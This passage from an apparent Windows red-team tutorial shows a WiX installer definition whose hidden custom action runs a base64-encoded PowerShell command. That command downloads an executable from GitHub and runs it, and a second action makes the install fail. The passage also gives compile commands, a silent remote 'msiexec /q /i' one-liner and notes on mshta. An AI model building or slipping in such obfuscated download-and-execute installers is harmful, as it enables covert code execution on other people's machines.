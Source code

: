 ```
    <Feature Id="DefaultFeature" Level="1">
      <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" 
ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
      invalid vbs to fail install
    </CustomAction>

    <InstallExecuteSequence>
      <Custom Action="SystemShell" After="InstallInitialize"></Custom>
      <Custom Action="FailInstall" Before="InstallFiles"></Custom>
    </InstallExecuteSequence>

  </Product>
</Wix>
```

将其编译，生成msi文件，命令如下：

```
candle.exe msigen.wix
light.exe msigen.wixobj
```

生成test.msi

**实现功能：**

```
msiexec /q /i https://github.com/3gstudent/test/raw/master/test.msi
```

**注：**

执行后需要手动结束进程msiexec.exe

### 7、mshta

mshta支持`http`和`htpps`

但mshta在执行hta脚本时，类似于浏览器，会根据链接返回头进行对应的解析操作，所以这里只有当返回头为html时才会运行

否则会被当普通文本进行解析

对于github的代码，返回的格式为`text/plain`
